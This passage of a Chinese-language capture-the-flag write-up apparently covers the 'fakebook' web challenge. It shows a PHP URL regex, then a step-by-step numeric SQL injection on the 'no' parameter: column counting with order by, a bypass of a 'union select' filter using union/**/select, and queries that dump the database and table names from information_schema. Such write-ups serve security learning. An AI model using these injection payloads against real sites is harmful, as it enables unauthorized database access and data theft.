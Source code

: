 ```php
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

登录进去，只有名字可以点，这个应该就是php中get url中拿到的

![image-20250215112252763](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215112400619.png)

点进去，发现有个参数，想到之前扫到的db.php，尝试注入

![image-20250215112438137](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215112646132.png)

报错确定是sql注入，然后尝试了一下，发现是数字型的

![image-20250215112752693](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215112752693.png)

![image-20250215112646132](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215112729910.png)

使用and，成功确定

![image-20250215112729910](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215113024445.png)

确定列数

```
?no=1 order by 4
```

使用union select 时不行，单独使用union和select都不会触发，应该是过滤了union select，中间加个注释符

![image-20250215112846351](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215112846351.png)

```
?no=-1 union/**/select 1,2,3,4
```

看到2是显示出来的

![image-20250215112219717](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250215112438137.png)

爆数据库

```
?no=-1 union/**/select 1,database(),3,4
```

爆表

```
?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'
```
